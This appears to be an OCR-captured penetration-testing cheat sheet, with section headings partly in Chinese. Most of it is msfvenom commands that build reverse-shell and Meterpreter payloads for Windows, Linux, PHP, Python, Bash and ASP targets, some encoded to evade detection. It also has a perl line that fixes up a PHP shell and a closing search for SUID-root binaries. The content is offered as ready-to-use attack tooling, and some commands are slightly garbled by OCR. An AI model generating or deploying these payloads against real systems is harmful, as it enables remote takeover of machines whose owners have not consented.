 MSF Payloads

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> X > 

system.exe

msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 
R > exploit.php

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> 
LPORT=443 -e -a x86 --platform win -f asp -o file.asp

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> 
LPORT=443 -e x86/shikata_ga_nai -b "/x00" -a x86 --platform win -f c

MSF 生成在 Linux 下反弹的 Meterpreter Shell


msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP Address> 
LPORT=443 -e -f elf -a x86 --platform linux -o shell


MSF 生成反弹 Shell (C Shellcode)

msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b "/
x00/x0a/x0d" -a x86 --platform win -f c

MSF 生成反弹 Python Shell

msfvenom -p cmd/unix/reverse_python LHOST=127.0.0.1 LPORT=443 -o 
shell.py

MSF 生成反弹 ASP Shell

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> 
LPORT=<Your Port to Connect On> -f asp -a x86 --platform win -o 
shell.asp

MSF 生成反弹 Bash Shell

msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your 
Port to Connect On> -o shell.sh

MSF 生成反弹 PHP Shell

msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> 
LPORT=<Your Port to Connect On> -o shell.php

add <?php at the beginning

perl -i~ -0777pe's/^/<?php /n/' shell.php

MSF 生成反弹 Win Shell

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> 
LPORT=<Your Port to Connect On> -f exe -a x86 --platform win -o shell.exe

# Linux 常用安全命令
	# 使用 uid 查找对应的程序
	find / -uid 0 -perm -4000
